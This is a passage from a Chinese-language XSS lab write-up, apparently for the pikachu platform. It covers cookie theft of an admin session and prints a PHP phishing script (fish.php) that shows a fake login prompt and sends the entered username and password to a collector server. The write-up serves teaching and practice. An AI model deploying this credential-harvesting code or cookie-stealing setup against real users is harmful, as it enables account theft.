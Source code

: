 > 利用

1. 以 admin/123456 身份登录
2. 打开 http://192.168.127.200:9000/pkxss/xcookie/post.html
3. 打开黑客服务器后端，成功获取到了admin 的cookie

![](../../image/Pasted%20image%2020230426031728.png)

***
#### 钓鱼攻击

>分析

钓鱼攻击的利用代码存放路径为 `/app/pkxss/xfish/fish.php`，需要将跳转的地址修改为黑客服务器的地址

```php
<?php
	error_reporting(0);
	// var_dump($_SERVER);
	if ((!isset($_SERVER['PHP_AUTH_USER'])) || (!isset($_SERVER['PHP_AUTH_PW']))) {
	//发送认证框，并给出迷惑性的info
	    header('Content-type:text/html;charset=utf-8');
	    header("WWW-Authenticate: Basic realm='认证'");
	    header('HTTP/1.0 401 Unauthorized');
	    echo 'Authorization Required.';
	    exit;
	} else if ((isset($_SERVER['PHP_AUTH_USER'])) &&(isset($_SERVER['PHP_AUTH_PW']))){
		//将结果发送给搜集信息的后台,请将这里的IP地址修改为管理后台的IP
	    header("Location: http://192.168.1.15/pkxss/xfish/xfish.php?username={$_SERVER[PHP_AUTH_USER]}
	    &password={$_SERVER[PHP_AUTH_PW]}");
	}
?>
```

用户只要加载了这个脚本，就会进行一次验证，如果 `$_SERVER` 这个对象的 `PHP_AUTH_USER` 和 `PHP_AUTH_PW` 这两个属性有一个为空，那么就会弹出一个钓鱼弹窗，提示用户输入用户名和密码，如果用户的防范意识不强，那么就很容易中招。
